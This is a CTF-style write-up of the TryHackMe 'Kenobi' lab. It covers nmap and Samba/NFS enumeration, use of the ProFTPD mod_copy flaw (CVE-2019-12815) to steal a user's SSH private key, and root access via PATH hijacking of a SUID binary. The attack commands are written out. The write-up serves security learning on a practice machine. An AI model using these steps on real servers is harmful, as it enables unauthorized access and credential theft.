<h2 class="menu-header" id="main">
<a href="https://github.com/Mithlonde/Mithlonde">Root</a>&#xA0;&#xA0;&#xA0;
<a href="https://github.com/Mithlonde/Mithlonde/blob/main/blog/index.md">Blog</a>&#xA0;&#xA0;&#xA0;
<a href="https://github.com/Mithlonde/Mithlonde/blob/main/projects/index.md">Projects</a>&#xA0;&#xA0;&#xA0;
<a href="https://github.com/Mithlonde/Mithlonde/blob/main/thm/thm.md">Writeups</a>&#xA0;&#xA0;&#xA0;
<a href="https://github.com/Mithlonde/Mithlonde/blob/main/thm/2022-04-25-Kenobi.md">~/Kenobi</a>&#xA0;&#xA0;&#xA0;
</h2>

# 👾 Mithlonde
└─$ cat Writeups/THM/Kenobi.md

`Linux` `PrivEsc` `SUID` `CVE-2019-12815`<br />
*https://tryhackme.com/room/kenobi*



###### Table of Contents:

- TryHackMe CTF Writeup: Kenobi
  * [Summary](#summary)
- Walkthrough:
  * [1. Enumeration](#1-enumeration)
  * [2. Exploitation](#2-exploitation)
  * [3. Post Exploitation](#3-post-exploitation)
  * [References](#references)

## TryHackMe CTF Writeup: Kenobi

### Summary

This room will cover accessing a Samba share, manipulating a vulnerable version of ProFTPD to gain initial access and escalate privileges to root via an SUID binary.

## Walkthrough:

### 1. Enumeration 

+ **Initial Nmap Recon:**  
We begin our reconnaissance by setting up our environment variables and running a Nmap scan checking default scripts and testing for vulnerabilities.



```bash
┌──(mithlonde💀kali)-[~/ctf/tryhackme/kenobi]
└─$ echo $ports                                         
111,139,2049,21,22,36521,38031,41909,445,52893,80

┌──(mithlonde💀kali)-[~/ctf/tryhackme/kenobi]
└─$ sudo nmap -p$ports -sCV -oN scans/targeted.nmap $IP
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-19 20:36 CEST
Nmap scan report for 10.10.86.224
Host is up (0.052s latency).

PORT      STATE SERVICE     VERSION
21/tcp    open  ftp         ProFTPD 1.3.5
22/tcp    open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site does not have a title (text/html).
| http-robots.txt: 1 disallowed entry 
|_/admin.html
|_http-server-header: Apache/2.4.18 (Ubuntu)
111/tcp   open  rpcbind     2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100003  2,3,4       2049/udp   nfs
|   100003  2,3,4       2049/udp6  nfs
|   100005  1,2,3      38323/udp6  mountd
|   100005  1,2,3      40617/tcp6  mountd
|   100005  1,2,3      50905/udp   mountd
|   100005  1,2,3      52893/tcp   mountd
|   100021  1,3,4      38985/udp   nlockmgr
|   100021  1,3,4      39304/udp6  nlockmgr
|   100021  1,3,4      41909/tcp   nlockmgr
|   100021  1,3,4      42341/tcp6  nlockmgr
|   100227  2,3         2049/tcp   nfs_acl
|   100227  2,3         2049/tcp6  nfs_acl
|   100227  2,3         2049/udp   nfs_acl
|_  100227  2,3         2049/udp6  nfs_acl
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp   open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
2049/tcp  open  nfs_acl     2-3 (RPC #100227)
36521/tcp open  mountd      1-3 (RPC #100005)
38031/tcp open  mountd      1-3 (RPC #100005)
41909/tcp open  nlockmgr    1-4 (RPC #100021)
52893/tcp open  mountd      1-3 (RPC #100005)
Service Info: Host: KENOBI; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h47m48s, deviation: 2h53m12s, median: 7m47s
|_nbstat: NetBIOS name: KENOBI, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: kenobi
|   NetBIOS computer name: KENOBI\x00
|   Domain name: \x00
|   FQDN: kenobi
|_  System time: 2022-04-19T13:44:12-05:00
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
```

From the above output we can see several ports open. In particular port **21**, **80**, **111**, **139** and **445** are of interest. The SSH service running on port **22** might become interesting in case we fight any login details during our reconnaissance. Enumerating the first two services (FTP and HTTP) did not lead to any intellectual property or further exploitable methodologies at the time of writing.

+ **FTP Discovery (Port 20):**

The targeted.nmap scan did not display anonymous login via **FTP** is allowed. Manually testing this confirmed the same.  



+ **Web Discovery (Port 80):**

1. The **Apache** server on port 80** lead to a simple image being displayed as landing page without any sensitive information in the page source. 



2. The earlier targeted.nmap scan did come up with 1 disallowed entry for **/admin.html**, which in turn did not include any login portal but another image being displayed instead. Stating it to be a dead end. 



+ **NFS Discovery (Port 111):**

The earlier **initial Nmap recon** scan showed **port 111** running the service rpcbind. This is just a server that converts remote procedure call (RPC) program number into universal addresses. When an RPC service is started, it tells rpcbind the address at which it is listening and the RPC program number its prepared to serve. 

In our case, port 111 is access to a **network file system (NFS)**. Running an additional nmap script scan showed `/var` as a NFS mounting point.

```bash
┌──(mithlonde💀kali)-[~/ctf/tryhackme/kenobi]
└─$ sudo nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount $IP                 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-19 21:53 CEST
Nmap scan report for 10.10.86.224
Host is up (0.046s latency).

PORT    STATE SERVICE
111/tcp open  rpcbind
| nfs-ls: Volume /var
|   access: Read Lookup NoModify NoExtend NoDelete NoExecute
| PERMISSION  UID  GID  SIZE  TIME                 FILENAME
| rwxr-xr-x   0    0    4096  2019-09-04T08:53:24  .
| rwxr-xr-x   0    0    4096  2019-09-04T12:27:33  ..
| rwxr-xr-x   0    0    4096  2019-09-04T12:09:49  backups
| rwxr-xr-x   0    0    4096  2019-09-04T10:37:44  cache
| rwxrwxrwt   0    0    4096  2019-09-04T08:43:56  crash
| rwxrwsr-x   0    50   4096  2016-04-12T20:14:23  local
| rwxrwxrwx   0    0    9     2019-09-04T08:41:33  lock
| rwxrwxr-x   0    108  4096  2019-09-04T10:37:44  log
| rwxr-xr-x   0    0    4096  2019-01-29T23:27:41  snap
| rwxr-xr-x   0    0    4096  2019-09-04T08:53:24  www
|_
| nfs-showmount: 
|_  /var *
| nfs-statfs: 
|   Filesystem  1K-blocks  Used       Available  Use%  Maxfilesize  Maxlink
|_  /var        9204224.0  1858088.0  6855540.0  22%   16.0T        32000
```

+ **SMB Discovery (Port 139 and 445):**

SMB has two ports:  


Since nothing had been found that could allow us to login per port 22 via SSH, I ran an additional nmap scan to enumerate the machine for SMB Shares after the first targeted scan came up with the following interesting data (note both the NetBIOS computer name and the Samba share):

```bash
smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: kenobi
|   NetBIOS computer name: KENOBI\x00
|   Domain name: \x00
```
>**NetBIOS** (Network Basic Input Output System) can supply some of the following information when querying a computer:
>
>-   Hostname
>-   NetBIOS name
>-   Domain
>-   Network Shares
>
>Badly configured shares exploitation can lead to:
>
>-  Information disclosure
>- Unauthorized file access
>- Information leakage used to mount a target attack

>
>
>Samba is the standard Windows interoperability suite of programs for Linux and Unix. It allows end users to access and use files, printers and other commonly shared resources on a companies intranet or internet. Its often referred to as a network file system.
>
>Samba is based on the common client/server protocol of Server Message Block (SMB). SMB is developed only for Windows, without Samba, other computer platforms would be isolated from Windows machines, even if they were part of the same network.

+ **Enumerating Samba for shares**

From running the additional Nmap scan we can see we have got anonymous READ/WRITE access to 3 particular shares (`\IPC$`, `\anonymous` and `\print$`).
```bash
┌──(mithlonde💀kali)-[~/ctf/tryhackme/kenobi]
└─$ sudo nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse $IP                            
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-19 21:54 CEST
Nmap scan report for 10.10.86.224
Host is up (0.045s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-enum-shares: 
|   account_used: guest
|   \\10.10.86.224\IPC$: 
|     Type: STYPE_IPC_HIDDEN
|     Comment: IPC Service (kenobi server (Samba, Ubuntu))
|     Users: 2
|     Max Users: <unlimited>
|     Path: C:\tmp
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.86.224\anonymous: 
|     Type: STYPE_DISKTREE
|     Comment: 
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\home\kenobi\share
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.86.224\print$: 
|     Type: STYPE_DISKTREE
|     Comment: Printer Drivers
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\var\lib\samba\printers
|     Anonymous access: <none>
|_    Current user access: <none>

```

Before being able to gather intel exploiting the anonymous READ/WRITE access we will first list the shares. As always, enumeration is mandatory. Both `\anonymous` and `\print$` seem to be disk shares, whereas `\IPC$` is an IPC service running on the Samba kenobi server.

+ **List Shares:**

`smbclient -L //$IP -N`
		- *`-L` search target services available*
		- *`-N` forces the tool to not ask for a password*
+ **Mount Shares:**

`smbclient //$IP/sharename -N`



>You can recursively download the SMB share too. Submit the password as nothing. I do prefer using a syntax that will prevent my own host name to be possibly logged.
>`smbget -R smb://$IP/sharename -U anonymous` or `-a` instead of `-U`
> 		- *`-U` Username to use
>  		- *`-a` Work as user guest
>
>

Opening the **log.txt** file, two things immediately cought my eye:

-   Information generated for Kenobi when generating an SSH key for the user
-   Information about the ProFTPD server.



---
### 2. Exploitation

+ **ProFtpd Version Discovery:**

ProFtpd is a free and open-source FTP server, compatible with Unix and Windows systems. Its also been vulnerable in the past software versions, and as I found the version currently running is the **ProFTPD default installation**, I can only assume it is indeed vulnerable. 

Double checking the actual version number to see whether it matches the initial Nmap recon scan, we can confirm the specific version number is 1.3.5.



```bash
PORT      STATE SERVICE     VERSION
21/tcp    open  ftp         ProFTPD 1.3.5
```
  
Using **searchsploit** to find exploits for this particular software version we can see a certain **'mod_copy'** showing up several times. Scanning through the Exploit Database it seems the mod_copy module in ProFTPD 1.3.5 allows remote attackers to read and write to arbitrary files via the site cpfr and site cpto commands.



Probing search engines with 'profTPD 1.3.5 mod copy' should have found a [mod_copy module](http://www.proftpd.org/docs/contrib/mod_copy.html) from ProFtpd's as well. The vulnerability can be tracked as [CVE-2019-12815](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-12815) and it affects all the versions up to 1.3.5b. Additional information regards mitigation can be found via [BleepingComputer](https://www.bleepingcomputer.com/news/security/proftpd-vulnerability-lets-users-copy-files-without-permission/).

+ **Private Key Exfiltration:**

The **mod_copy module** implements **SITE CPFR** and **SITE CPTO** commands, which can be used to copy files/directories from one place to another on the server. Any unauthenticated client can leverage these commands to copy files from any part of the filesystem to a chosen destination.

We know from the **log.txt** file found that the FTP service is running as the Kenobi user and an ssh key (id_rsa) has been generated for that user.
  
The `SITE CPFR` command specifies the source file/directory (Kenobi's private key location ) to use for copying from one place to another directly on the server. Whereas the `SITE CPTO` command specifies the destination file/directory



>*Running an additional nmap script scan earlier showed `/var` as an NFS mounting point. So we've now moved Kenobi's private key to the /var/tmp directory.*

Having successfully copied the private key (id_rsa) to a directory we have access to, we can now mount the share and exfiltrate the file allowing us to finally login in via SSH.

Now that the **id_rsa** file has been found, the next step is mounting the /var/tmp directory to the attacker's machine, allowing us to exfiltrate the id_rsa and change the permissions before connecting via SSH.
```bash
# Mount share
sudo mkdir /mnt/kenobiNFS
sudo mount $IP:/var /mnt/kenobiNFS
ls -la /mnt/kenobiNFS/tmp
# Copy file to current directory
cp /mnt/kenobiNFS/tmp/id_rsa .
# Change file permissions
chmod 600 <filename>
# Connect via SSH
ssh -i id_rsa username@$IP
```



---
### 3. Post Exploitation

+ **User Flag:**

In order to get the user flag, we can simply use the `find /home -name user.txt` find the file named “user.txt” in the current directory or `.` to search the current directory. In this case, it is in our current directory.



+ **Privilege Escalation with Path Variable Manipulation:**


Lets first understand what what SUID, SGID and Sticky Bits are.

| Permission | On Files | On Directories |
| ----------- | ----------- | ----------- |
| SUID Bit | User executes the file with permissions of the **file** owner | - |
| SGID Bit | User executes the file with the permission of the **group** owner | File created in directory gets the same group owner |
| Sticky Bit | No meaning | Users are prevented from deleting files from other users |

SUID bits can be dangerous, some binaries need to be run with elevated privileges, however other files could that have the SUID bit set can lead to all sort of privilege escalation. Thus allowing us to run the file with a higher privilege level than the current user.

**Find files with the SUID bit:**

`find / -perm -u=s -type f 2>/dev/null`
*(`find / -type f -perm -04000 -ls 2>/dev/null` will display a more detailed output)*  
	- *`/` means we start from the top/root of file system*  
	- *`-perm` for permissions*  
	- *`-u=s` : states what permissions we're looking for. All files owned by root user with SUID 's' set*  
	- *`-type f` : states what type we're looking for, in this case files*  
	- *`2>/dev/null` : is the **null** device it takes any input you want and throws it away. It can be used to suppress any output*

Since it returned an extensive list, I cross references them with https://gtfobins.github.io/#+suid and eventually noted that `/usr/bin/menu` is an unusual entry. Especially since the more detailed search revealed the file had been created in 2019.




If a program tries to execute another program, the name of that program is likely embedded in the executable file as a string. We can run `strings` on the executable file to find strings of characters.  **Strings** is a command on Linux that looks for human readable strings on a binary. Using this for the SUID file found, shows the binary is running without a full path (e.g. not using /usr/bin/curl or /usr/bin/uname).



As this file runs as the root users privileges, we can manipulate our path to gain a root shell.

+ **Root Flag:**

In the following example I was able to copy the default the /bin/sh shell to a name filename in /tmp called 'curl', give it the correct permissions and then put its location in our path. This means that when the /usr/bin/menu binary was executed thereafter, it will use our new path variable instead to find the "curl" binary. This will cause the /usr/bin/menu file *(which is running with root privileges due to the SUID bit set)* to open a shell as root when the curl binary is executed.



---
### References

1. https://tryhackme.com/room/kenobi
2. http://www.proftpd.org/docs/contrib/mod_copy.html
3. https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-12815
4. https://www.bleepingcomputer.com/news/security/proftpd-vulnerability-lets-users-copy-files-without-permission/%C2%A0
